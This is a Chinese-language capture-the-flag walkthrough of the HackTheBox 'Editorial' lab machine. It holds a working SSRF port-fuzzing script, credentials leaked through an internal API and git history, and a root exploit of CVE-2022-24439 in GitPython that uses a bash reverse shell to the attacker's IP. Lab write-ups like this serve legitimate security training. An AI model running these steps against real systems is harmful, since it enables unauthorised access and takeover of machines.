






## Editorial

```
[★]$ nmap -sC -sV 10.129.171.132
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

[★]$ echo '10.129.171.132 editorial.htb' | sudo tee -a /etc/hosts
10.129.171.132 editorial.htb
```

### 测试浏览器是否相应本地
```
[*]$ nc -lvnp 5555
listening on [any] 5555 ...
```
#### 浏览器Publish with us

```
[★]$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.171.132] 50682
GET / HTTP/1.1
Host: 10.10.14.149:5555
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
### burpsuite拦截
#### Send

#### 回应/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
#### 回头看看我们的Netcat侦听器，我们看到我们确实收到了一个回调。这证实了服务器试图连接回我们的本地机器，这表明应用程序是错误的易受服务器端请求伪造（SSRF）的攻击。
#### 再拦截127.0.0.1:80 Send

#### 回应/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg,一样的
```
在这个HTTP请求中，bookfile 和 bookurl 都是表单字段（form fields）。它们是上传文件和数据时使用的名称。以下是这两个字段的作用：
bookurl:
这是一个文本字段，用来存储URL。
在这个例子中，字段值是 http://127.0.0.1:§80§，看起来像是一个试图插入或操纵URL的地方，尤其是包含了不标准的字符（§80§）。这种格式可能用于探测应用的漏洞，或者是为了绕过某些安全检查。
bookfile:
这是一个文件上传字段，允许用户上传文件。
这个字段的 filename 是空的，表示没有实际文件被上传，或者是文件上传过程中存在问题。也有可能是该请求用来探测系统对文件上传的处理。
```
### 进一步,双击右键Send to Intruder
#### 点击添加§,127.0.0.1:§80§
#### 在localhost上查找任何开放的端口,在load导入下面这个文件
```
[*]$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Infrastructure/common-http-ports.txt
```

#### 操作2，在Settings->Grep-Match->点击Clear之后添加.jpeg

#### 操作3 点击Start attack
#### 完成后，我们看到所有响应都包含一个.jpeg文件扩展名。现在我们可以写出Python脚本模糊所有开放端口（1-65535）并过滤掉任何不包含.jpeg扩展名，因为使用免费版本的Burp入侵者会很慢

#### 该脚本使用请求库发送HTTP请求。它首先创建一个空二进制文件一个名为a的文件，它作为POST请求中bookfile的占位符。这个脚本然后循环通过从1到65534的所有TCP端口。对于每个端口，它打开空文件和为POST请求准备数据，将bookurl设置为本地IP，当前端口为测试。该脚本向http://editorial.htb/upload-cover发送POST请求，其中包括空文件和URL数据。发送请求后，它检查响应是否没有以。结尾.jpeg扩展名。如果接收到的响应不以.jpeg结尾，则打印端口与响应文本一起编号。这有助于识别返回唯一内容的端口。现在,如果我们运行脚本，看到端口5000没有.jpeg扩展名
```
[*]$ vi ssrf2.py

#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
    f.write(b'')
for port in range(1, 65535):
    with open("a", 'rb') as file:
        data_post = {"bookurl": f"http://127.0.0.1:{port}"}
        data_file = {"bookfile": file}
        try:
            r = requests.post("http://editorial.htb/upload-cover",files=data_file, data=data_post)
            if not r.text.strip().endswith('.jpeg'):
                print(f"{port} --- {r.text}")
        except requests.RequestException as e:
            print(f"Error on port {port}: {e}")

[★]$ python3 ssrf2.py
5000 --- static/uploads/d9f01053-5690-4282-a7b3-4ca7f65e1557
Ctrl+C
```
### 浏览器127.0.0.1:5000 ->Preview,在图标的位置右键下载图片

#### 查看文件，通过jq输出以整齐地格式化JSON数据
```
[★]$ file 684b74de-5cce-4df4-80d8-0cd1350e3fff
684b74de-5cce-4df4-80d8-0cd1350e3fff: JSON text data
[★]$ cat 684b74de-5cce-4df4-80d8-0cd1350e3fff | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
#### 在这里，我们看到了关于API的信息，表明在端口上有一个内部运行的API 5000。作者的端点似乎很有趣，所以我们可以查询它
### ### 浏览器127.0.0.1:5000/api/latest/metadata/messages/authors ->Preview,在图标的位置右键下载图片
```
[★]$ ls
684b74de-5cce-4df4-80d8-0cd1350e3fff  7de2fbd5-c9ed-40ef-991c-3f3bbb07e63c
[★]$ cat 7de2fbd5-c9ed-40ef-991c-3f3bbb07e63c | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
#### 找到了用户dev的登录凭据 dev\dev080217_devAPI!@
```
[*]$ ssh dec@10.129.171.132

dev@editorial:~$ cat user.txt

dev@editorial:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```
#### 查看文件夹，我们发现了一个隐藏的。说明该目录是一个git目录存储库。这个文件夹的存在表示项目正在被Git跟踪，它是一个用于管理文件变更的版本控制系统。
```
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5  2024 .
drwxr-x--- 4 dev dev 4096 Jun  5  2024 ..
drwxr-xr-x 8 dev dev 4096 Jun  5  2024 .git
dev@editorial:~/apps$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    app_api/app.py
	deleted:    app_editorial/app.py
	deleted:    app_editorial/static/css/bootstrap-grid.css
	deleted:    app_editorial/static/css/bootstrap-grid.css.map
	deleted:    app_editorial/static/css/bootstrap-grid.min.css
	<SNIP>
	deleted:    app_editorial/templates/upload.html

no changes added to commit (use "git add" and/or "git commit -a")
dev@editorial:~/apps$ 
```
#### 在这里，我们看到几个文件已经被删除，但没有提交。接下来，我们运行git日志查看提交历史，它提供了对开发过程和最近情况的深入了解通过显示作者所做的一系列提交，对项目所做的更改
```
dev@editorial:~/apps$ git log
<SNIP>
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.
<SNIP>
```
#### 在最近的提交中，我们注意到一个标题为更改（api）：将prod降级为dev似乎很有趣。它表示从生产环境到开发环境的变化环境。为了进一步研究，我们继续使用git show来枚举这个提交命令，它为我们提供有关所做更改的详细信息。
```
dev@editorial:~/apps$ git  show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```
#### 找出了提供的凭据
```
prod\nPassword: 080217_Producti0n_2023!@
dev\nPassword: dev080217_devAPI!@
```
### 使用su命令切换到新用户，它代表替换用户。
```
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3
        /opt/internal_apps/clone_changes/clone_prod_change.py *
```
#### 输出显示了用户的一些默认设置，例如env_reset执行命令前清理用户环境。secure_path设置安全路径可执行文件。它还指示prod可以作为根用户运行哪些命令。在这种情况下，用户prod可以用root权限运行Python脚本。
### Privilege Escalation 特权升级
```
prod@editorial:/home/dev/apps$ ls -la /opt/internal_apps/clone_changes/clone_prod_change.py
-rwxr-x--- 1 root prod 256 Jun  4  2024 /opt/internal_apps/clone_changes/clone_prod_change.py
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
#### 这个脚本中有趣的部分是下面这行，它表明它导入了Repo类从git模块：from git import Repo
代码导入了 Repo 类，Repo 是 GitPython 库的一部分，用于与 Git 仓库进行交互
```
prod@editorial:/home/dev/apps$ pip freeze | grep GitPython
GitPython==3.1.29
```
### 漏洞搜索from git import Repo
https://nvd.nist.gov/vuln/detail/CVE-2022-24439
#### 描述 由于用户输入验证不当，gitpython 软件包的所有版本都存在远程代码执行 (RCE) 漏洞，攻击者可以利用该漏洞在 clone 命令中注入恶意构建的远程 URL。攻击者可以利用此漏洞，是因为该库在未对输入参数进行充分过滤的情况下对 git 进行外部调用。
```
prod@editorial:/home/dev/apps$ echo "bash -i >& /dev/tcp/10.10.14.149/4443 0>&1" > /tmp/shell.sh
```
#### 本地监听
```
[★]$ nc -lvnp 4443
```
#### 执行sudo 
```
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```
```
这个构造的目的是通过利用 命令注入 和 输入验证不足 的漏洞，在目标系统中执行 /tmp/shell.sh 脚本。攻击者可能试图通过不正确的输入验证，触发系统错误地执行恶意命令。
ext::sh：通过不常见的命令调用方法，试图执行目标脚本。
-c bash：告诉 bash 执行一个命令。
%：可能是为了绕过某些过滤机制。
/tmp/shell.sh：恶意脚本的路径，可能包含反向 shell 等恶意命令
```
#### 连接反向shell
```
[★]$ nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.171.132] 47180
root@editorial:/opt/internal_apps/clone_changes# id
id
uid=0(root) gid=0(root) groups=0(root)
root@editorial:/opt/internal_apps/clone_changes# cat /root/root.txt
```
